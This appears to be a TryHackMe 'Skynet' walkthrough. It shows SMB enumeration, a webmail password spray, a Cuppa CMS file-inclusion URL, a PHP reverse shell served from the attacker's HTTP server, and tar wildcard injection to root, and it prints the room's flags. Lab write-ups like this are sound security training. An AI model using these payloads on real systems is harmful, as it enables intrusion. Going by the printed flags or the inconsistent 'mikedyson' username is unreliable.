






# Skynet

**Room:** [Skynet](https://tryhackme.com/room/skynet) · **Difficulty:** Easy · **OS:** Linux

A Terminator-themed box where an anonymously readable SMB share leaks both a password wordlist and, later, a webmail message containing Miles Dyson's actual SMB password. That password reaches a personal Cuppa CMS install vulnerable to local file inclusion, which is enough to get a webshell and a reverse shell. Root falls to a classic `tar` wildcard injection in a cron-driven backup script.

---

## 1. Reconnaissance

### Port scan

```bash
nmap -p- --min-rate 1000 -T4 -Pn -sV -oA nmap_full_scan 10.48.168.128
```

```text
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X
```

Mail services (POP3/IMAP) plus SMB alongside a web server — worth checking SMB first, since anonymous access to Samba shares is common and fast to confirm.

### Content discovery

```bash
ffuf -u http://10.48.168.128/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
```

```text
admin                   [Status: 301]
ai                      [Status: 301]
config                  [Status: 301]
squirrelmail            [Status: 301]
```

`/squirrelmail` confirms there's a webmail client reachable over HTTP, which lines up with the POP3/IMAP ports.

---

## 2. Enumerating SMB

```bash
smbmap -H 10.48.168.128
```

```text
anonymous                                               READ ONLY       Skynet Anonymous Share
milesdyson                                              NO ACCESS       Miles Dyson Personal Share
```

The `anonymous` share is readable without credentials:

```bash
smbclient -N //10.48.168.128/anonymous
```

```text
attention.txt                       N      163
logs                                D        0
```

```bash
get attention.txt
cat attention.txt
```

```text
A recent system malfunction has caused various passwords to be changed. All skynet
employees are required to change their password after seeing this.
-Miles Dyson
```

The `logs` subfolder yields a large list of `terminator`-themed strings in `log1.txt` — effectively a custom password wordlist tailored to this box's theme, left behind (deliberately or not) for anyone who can read the share.

---

## 3. Webmail — wrong username, then the right one

With a Terminator-themed wordlist in hand, the natural account to target is Miles Dyson's SquirrelMail login. A first guess at the username fails:



So the login page itself — SquirrelMail **1.4.23** — becomes the next lead, and a public RCE advisory for that exact version is found:



That CVE turns out not to be needed here — the real path in is simpler. SMB's `milesdyson` share (`NO ACCESS` to the anonymous user) implies a valid Samba account named `milesdyson`, and the correct **webmail** username is actually `mikedyson`. Spraying the terminator wordlist against SquirrelMail with that username succeeds:



The inbox contains a password-reset notice — the system account's **actual current** SMB password:



```text
Password: )s{A&2Z=F^n_E.B`
```

---

## 4. Accessing the personal SMB share and CMS

```bash
smbclient //10.48.168.128/milesdyson -U milesdyson
```
```text
Password for [WORKGROUP\milesdyson]: )s{A&2Z=F^n_E.B`
```

Inside `notes/important.txt`:

```text
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

That path leads to a personal page and, from there, a CMS admin login:


```bash
ffuf -u http://10.48.168.128/45kra24zxs28v3yd/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
```

```text
administrator           [Status: 301]
```



---

## 5. Foothold — Cuppa CMS LFI to RCE

```bash
searchsploit "cuppa"
```

```text
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion   | php/webapps/25971.txt
```

The `alertConfigField.php` script takes a path in `urlConfig` without sanitizing directory traversal, confirmed with a classic `/etc/passwd` read:

```text
http://10.48.168.128/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../etc/passwd
```



Because the same parameter also supports a **remote** URL (RFI), a PHP reverse shell is hosted and included directly:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 8000
```

```text
10.48.168.128 - - [03/Jun/2026 21:45:04] "GET /php-reverse-shell.php HTTP/1.0" 200 -
```

### User flag

```bash
cd /home/milesdyson
cat user.txt
```

```text
7ce5c2109a40f958099283600a9ae807
```

---

## 6. Privilege escalation — `tar` wildcard injection in a cron job

A backup script owned by root is found in `milesdyson`'s home directory:

```bash
cat backups/backup.sh
```

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

This script (run periodically as root, almost certainly via cron) calls `tar` with a bare `*` glob inside a directory the web user can write to. `tar` supports special filenames starting with `--` as command-line options, so creating files named like options lets us smuggle flags into the privileged `tar` invocation — the classic **tar wildcard injection**:

```bash
cd /var/www/html
echo 'chmod u+s /bin/bash' > shell.sh
chmod +x shell.sh
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh shell.sh'
```

When `tar` next runs as root against `/var/www/html/*`, it expands those two filenames as `--checkpoint=1 --checkpoint-action=exec=sh shell.sh`, which makes `tar` execute `shell.sh` — as root — mid-archive:

```bash
ls -l /bin/bash
```

```text
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

After the cron job fires, `/bin/bash` has gained the SUID bit:

```bash
/bin/bash -p
whoami
```

```text
root
```

### Root flag

```bash
cat /root/root.txt
```

```text
3f0372db24753accc7179a282cd6a949
```
